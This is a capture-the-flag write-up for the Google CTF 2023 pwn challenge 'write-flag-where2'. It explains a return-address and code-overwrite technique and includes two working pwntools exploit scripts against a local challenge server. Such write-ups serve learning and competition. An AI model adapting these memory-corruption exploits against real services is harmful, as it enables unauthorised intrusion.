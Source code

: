 # Google CTF 2023 - pwn: write-flag-where2 writeup

In the second version, we can no longer do that, as there is no fluff printed inside the loop.

One idea is to overwrite the return address so that we jump into the child function beginning again, or somewhere near at least… And overwrite one of the strings printed at start.
We have only very little control over the write, we can for example write 'C' (0x43) byte.
Return address is 0x15c9. So we can overwrite it with 0x1543, but that address is in the middle of an instruction and parses as the "in" instruction, which is not useful. We can also overwrite with 'T' (by noticing the retaddr is little-endian) which gives us 0x1554, which is also in the middle of instruction. 'F' would parse as "add [rax], al", and rax is zero at this point. '{' is also not useful. However, '}' would work - it jumps into a "jns" instruction, which either way would print some message, which we can overwrite with the flag. We'll just need to brute force the flag length to know at which offset to write it.

```
from pwn import *

context.log_level = "DEBUG"

r = remote("localhost", 1337)
flaglen = 13

s = r.recvuntil(b"\n\n").decode().splitlines()[2:]
base = None
for line in s:
  if "chal" in line and base is None:
    base = int(line.split("-")[0], 16)
  if "stack" in line:
    stack = int(line.split("-")[1].split()[0], 16)

print(hex(base), hex(stack))

ret = stack - (0x7ffffffff000-0x7fffffffdbd8)
print(hex(ret))
r.sendline(b"0x%x %d" % ((ret-flaglen+1), flaglen))
r.sendline()
r.interactive()
```

Unfortunately the above code, while technically working, only prints the "server accept failed" message on the server console, not to the socket - and then exits immediately. So we need another idea.
We can also overwrite arbitrary code with 'T', which is a relatively harmless 'push rsp', to effectively nop the instruction out. This way we should avoid the unfortunate exit calls? (The first nop will have to be 'CT', or 'push r12', which is also fine!

```
from pwn import *

context.log_level = "DEBUG"

r = remote("localhost", 1337)
flaglen = 13

s = r.recvuntil(b"\n\n").decode().splitlines()[2:]
base = None
for line in s:
  if "chal" in line and base is None:
    base = int(line.split("-")[0], 16)
  if "stack" in line:
    stack = int(line.split("-")[1].split()[0], 16)

print(hex(base), hex(stack))

def nop2(addr):
  r.sendline(b"0x%x 2" % (addr+base))
  sleep(0.1)

nop2(0x15d1)
nop2(0x15d0)
nop2(0x15cf)
nop2(0x15ce)
nop2(0x15cd)
nop2(0x15cc)
nop2(0x15cb)
nop2(0x15ca)
nop2(0x15c9)
r.sendline(b"0x%x 127" % (0x218e+base))
sleep(0.1)
r.sendline()
r.interactive()
```

This script gives us the flag for part 2 of the challenge by avoiding the exit(0) and going into some dprintf call, for which we overwrite the argument with the flag.
